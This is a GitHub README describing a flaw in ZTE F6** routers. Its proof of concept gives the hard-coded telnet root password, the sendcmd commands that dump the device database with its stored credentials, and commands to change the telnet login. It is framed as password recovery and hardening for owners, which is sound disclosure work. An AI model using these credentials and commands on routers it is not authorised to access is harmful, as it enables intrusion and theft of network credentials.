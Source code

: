 #  [![creatorb](https://cdn2.iconfinder.com/data/icons/software-development-glyph-black/2048/5396_-_Bug_in_Application-64.png )](https://postimg.org/image/u69xjk8nn/) ZTE F6** bug

I dont want to talk to much, it isn't how to hack wifi, all about what i am explained here it just little bug on zte f6** router devices... no crack, break, hack but by telnet we rock.

Required:
  - telnet
  - wifi connected

i think it can be another way to get back your lost password on gui panel of your router device.

> This bug's started
> with zte f6** default password
> username : root
> password : Zte521
> you can bypass it on telnet
> don't panic isn't someone cant access it
> if s/he isn't connected with your wifi right ?
> but can u make sure if one day no one else can access it
> your wifi, your wifi, your wifi ... our wifi

### POC
Open terminal using telnet to connect your gateway (assume: 192.168.1.1).

```sh
/ # telnet 192.168.1.1
/ # username : root
/ # password : Zte521
```

then if you already loged, try to read database user...

```sh
/ # sendcmd 1 DB p DevAuthInfo
```

thats for f609 sometimes have different table name in another devices you can see all db by:

```sh
/ # sendcmd 1 DB p
```

### Patching

Well its all will going ok
since you had known all table and value.

Change username:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UName NewUserName
```

Change Password:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UPwd NewPassword
```

Save:
```sh
/ # sendcmd 1 DB save
```
Reboot:
```sh
/ # reboot
```

Well its all how it going, enjoy and stay beware everywhere, btw what news here's my isp have been upgraded some device with no telnet, nice no telnet no Rock-et!


### Todos

 - Bash Checker

License
----

MIT


**Free Software, Rock Yeah!**

~ creatorbe
